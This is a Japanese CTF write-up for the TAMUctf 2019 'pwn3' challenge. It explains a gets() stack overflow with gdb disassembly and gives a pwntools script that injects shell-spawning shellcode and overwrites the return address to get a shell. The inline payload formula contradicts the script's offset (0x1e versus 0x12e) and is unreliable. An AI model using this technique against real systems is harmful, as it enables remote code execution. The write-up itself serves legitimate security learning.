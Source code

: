 # pwn3
## Description 

実行ファイルが渡される
実行してみると
``` Take this, you might need it on your journey 0xffd1d53e! ```とある

## Solution
```
[*] '/home/mizuiro/PROJECTS/ctf/TAMUctf_19/pwn3/pwn3'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```
実行したときに現れるアドレスはバッファのアドレスだった 
```
0x565555c3 in echo ()
gdb-peda$ disas 
Dump of assembler code for function echo:
   0x5655559d <+0>:	push   ebp
   0x5655559e <+1>:	mov    ebp,esp
   0x565555a0 <+3>:	push   ebx
   0x565555a1 <+4>:	sub    esp,0x134
   0x565555a7 <+10>:	call   0x565554a0 <__x86.get_pc_thunk.bx>
   0x565555ac <+15>:	add    ebx,0x1a20
   0x565555b2 <+21>:	sub    esp,0x8
   0x565555b5 <+24>:	lea    eax,[ebp-0x12a]
   0x565555bb <+30>:	push   eax
   0x565555bc <+31>:	lea    eax,[ebx-0x191c]
   0x565555c2 <+37>:	push   eax
=> 0x565555c3 <+38>:	call   0x56555410 <printf@plt>
   0x565555c8 <+43>:	add    esp,0x10
   0x565555cb <+46>:	sub    esp,0xc
   0x565555ce <+49>:	lea    eax,[ebp-0x12a]
   0x565555d4 <+55>:	push   eax
   0x565555d5 <+56>:	call   0x56555420 <gets@plt>
   0x565555da <+61>:	add    esp,0x10
   0x565555dd <+64>:	nop
   0x565555de <+65>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x565555e1 <+68>:	leave  
   0x565555e2 <+69>:	ret    
End of assembler dump.
```
gets()が使われているので、スタック内のリターンアドレスを上書き出来ることがわかる。
そこでbufferにshellcodeを送って、そこに対して戻るようにリターンアドレスを書き換える
bufferの位置がebp-0x12aなのでそこからsave ebpをまたいでリターンアドレスを書き込む。
payload = shellcode + 'x90' * (0x1e-len(shellcode) + return address
### 疑似コード
```
int main(int arg0) {
    __x86.get_pc_thunk.ax();
    sub_440();
    echo();
    return 0x0;
}
int echo() {
    __x86.get_pc_thunk.bx();
    sub_410(); // printf
    eax = sub_420(); 
    return eax;
}
```

```python:solve.py
from pwn import *

io = remote("localhost",4088)
io.recvuntil("journey")
addr = io.recvuntil("!").rstrip(b"!")
addr_shellcode = int(addr,16)
log.info("&shellcode={}".format(hex(addr_shellcode)))

shellcode = asm(shellcraft.sh())

payload = shellcode
payload += b'\x90' * (0x12e-len(shellcode))
payload += p32(addr_shellcode)

io.sendline(payload)
io.interactive()
```
